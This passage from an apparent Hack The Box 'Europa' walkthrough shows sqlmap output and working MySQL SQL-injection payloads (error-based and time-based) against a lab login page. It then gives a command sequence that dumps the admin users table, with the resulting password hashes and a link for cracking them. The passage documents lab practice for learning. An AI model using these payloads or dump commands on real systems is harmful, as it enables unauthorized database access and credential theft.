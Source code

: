 ```console
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=whatever' OR (SELECT 7770 FROM(SELECT COUNT(*),CONCAT(0x7171717071,(SELECT (ELT(7770=7770,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- 	 apkS&password=whatever

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=whatever' OR SLEEP(5)-- ZTnM&password=whatever
---
[05:37:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[05:37:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 05:37:17

``` 
SQLmap clearly tells us that the webpage is vulnerable. Chaining these commands we are able to extract needed information:

* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --dbs
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables -D admin
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables --columns -D admin -T users
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users --dump password

> Check out [this](http://www.binarytides.com/sqlmap-hacking-tutorial/) cheatsheet if you want to learn SQLmap!

Eventually, SQLmap will obtain password hashes for you which can then be [cracked](https://hashkiller.co.uk/md5-decrypter.aspx).
```console
+----+----------------------+--------+---------------+----------------------------------+
| id | email                                 | active   | username         | password                                          |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1            | administrator    | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb    | 1            | john                   | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```
<img src="/img/blog/htb-europa/htb-europa-07.png">
